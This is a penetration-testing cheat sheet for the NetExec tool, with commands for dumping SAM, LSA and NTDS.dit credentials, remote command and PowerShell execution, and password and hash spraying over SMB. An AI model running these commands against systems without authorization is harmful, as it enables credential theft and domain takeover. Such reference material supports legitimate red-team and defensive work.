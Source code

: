 # NetExec

### Find ip/hostname/SMB Signinig/etc:

```bash
sudo netexec smb targets.txt
sudo netexec smb targets.txt --gen-relay-list relay.txt
```

### Enumerate SAM hashes

```bash
sudo netexec smb ip -u user -p 'password' --sam
sudo netexec smb ip -u user -p 'password' --sam --user target-user
```

### Enumerate LSA for potential plaintext passwords

```bash
sudo netexec smb ip -u user -p 'password' --lsa
```

### Enumerate shares

```bash
sudo netexec smb ip -u user -p 'password' --shares
```

### Pass cmd

```bash
sudo netexec smb ip -u user -p 'password' -x 'command'
```

### Pass powershell

```bash
sudo netexec smb ip -u user -p 'password' -X 'command'
```

### Look at domain admins

```bash
sudo netexec smb ip -u user -p 'password' -x 'net group "Domain Admins" /domain'
```

### Look at logged on users

```bash
sudo netexec smb ip -u user -p 'password' --loggedon-users
```

### Look at NTDS.dit

This is LOUD - use it with caution

```bash
sudo netexec smb dc-ip -u domain-admin-user -p 'password' --ntds
```

### Find out what machines a user can successfully log onto

This is LOUD - use it with caution

```bash
sudo netexec smb targets.txt -u user -p 'password'
sudo netexec smb targets.txt -u user -H 'hash'
```
